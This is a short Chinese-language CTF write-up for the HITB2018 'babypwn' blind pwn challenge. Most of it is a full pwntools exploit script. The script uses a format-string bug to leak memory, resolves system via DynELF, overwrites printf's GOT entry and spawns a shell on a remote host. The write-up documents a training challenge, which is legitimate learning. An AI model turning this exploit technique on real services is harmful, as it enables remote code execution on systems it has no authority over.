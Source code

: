 这题就是最简单的blind pwn

![](https://github.com/charlieleex/CTF_Writeup/blob/master/HITB2018/babypwn/t1.png)

大概反编译之后就是这样

dump的脚本是leak.py，但是也要修改一下才能用，dump下来的是fmt，可以用ida打开，但是反编译也不是很成功

这题利用Dynelf可以leak出system的地址，然后利用格式化字符串漏洞就可以直接将got表中printf的值修改成system的地址

但是生成payload的函数有点难写，具体可以参照我写的函数


下面是payload


```
from pwn import *

p=remote('47.75.182.113', 9999)
#context.log_level='debug'

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.sendline(x)

def leak(addr):
    payload="ab%7$scd"+p64(addr)
    se(payload)
    ru('ab')
    data=ru('cd')[:-2]
    if len(data)==0:
        return '\x00'
    return data


def genpayload(addr,value):
    v=0
    tv=p64(value)
    payload=""
    for i in range(3):
        w=(ord(tv[i])-v+256)%256
        v=ord(tv[i])
        payload+="%"+str(w)+"c%"+str(11+i)+"$hhn"
    payload=payload.ljust(0x28,'a')
    for i in range(3):
        payload+=p64(addr+i)
    return payload


gets=u64(leak(0x601028)+'\x00\x00')

d = DynELF(leak, gets)

base=d.lookup(None,'libc')
system=d.lookup('system','libc')

context.log_level='debug'

payload=genpayload(0x601020,system)

se(payload)

sleep(0.5)

se('/bin/sh\x00')

p.interactive()


```

